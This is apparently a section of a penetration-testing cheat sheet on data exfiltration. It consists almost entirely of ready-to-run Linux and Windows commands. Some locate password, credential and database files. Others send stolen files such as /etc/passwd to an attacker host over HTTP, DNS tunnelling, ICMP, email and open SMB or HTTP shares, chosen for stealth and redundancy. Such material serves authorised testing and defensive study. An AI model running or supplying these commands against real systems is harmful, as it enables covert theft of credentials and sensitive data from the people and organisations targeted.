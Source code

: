 ### **Data Exfiltration Techniques**

**What data exfiltration involves:** Stealing sensitive data from compromised systems using various covert channels and techniques.

```bash
# File identification and collection
# Linux sensitive file locations
find / -name "*.sql" -o -name "*.db" -o -name "*.sqlite" 2>/dev/null
find / -name "*password*" -o -name "*credential*" 2>/dev/null
find /home -name "*.doc" -o -name "*.docx" -o -name "*.pdf" -o -name "*.xls" -o -name "*.xlsx" 2>/dev/null
grep -r "password\|credential\|secret" /var/www/ 2>/dev/null

# Windows sensitive file locations
dir /s /b C:\*password*
dir /s /b C:\*credential*
dir /s /b C:\*.sql
dir /s /b C:\*.db
findstr /si "password\|credential" C:\*.txt C:\*.ini C:\*.cfg C:\*.xml

# Data exfiltration methods
## HTTP/HTTPS exfiltration
# Linux
curl -X POST -F "file=@/etc/passwd" http://attacker.com/upload.php
tar czf - /home/user/documents | curl -X POST --data-binary @- http://attacker.com/upload

# Windows  
powershell -c "Invoke-WebRequest -Uri 'http://attacker.com/upload.php' -Method POST -InFile 'C:\temp\data.txt'"

## DNS exfiltration
# Linux
cat /etc/passwd | xxd -p -c 16 | while read line; do nslookup $line.attacker.com; done

# Windows
powershell -c "foreach($line in Get-Content 'C:\temp\data.txt'){nslookup ($line + '.attacker.com')}"

## ICMP exfiltration
# Linux
cat /etc/passwd | base64 | while read line; do ping -c 1 -p $line attacker.com; done

## Email exfiltration
# Linux (if sendmail available)
cat sensitive_file.txt | mail -s "Data" attacker@evil.com

# Windows (if SMTP available)
powershell -c "Send-MailMessage -To 'attacker@evil.com' -From 'system@target.com' -Subject 'Data' -Body (Get-Content 'C:\temp\data.txt' | Out-String) -SmtpServer 'smtp.target.com'"

## File sharing exfiltration
# Linux
python3 -m http.server 8080                 # Start HTTP server
# Access from attacker: wget http://target:8080/file

# Windows
powershell -c "New-SmbShare -Name 'Data' -Path 'C:\temp' -ReadAccess 'Everyone'"

# Why multiple exfiltration methods:
# - Different methods work in different network environments
# - Stealth requirements vary by engagement
# - Network restrictions may block certain protocols
# - Redundancy ensures successful data extraction
```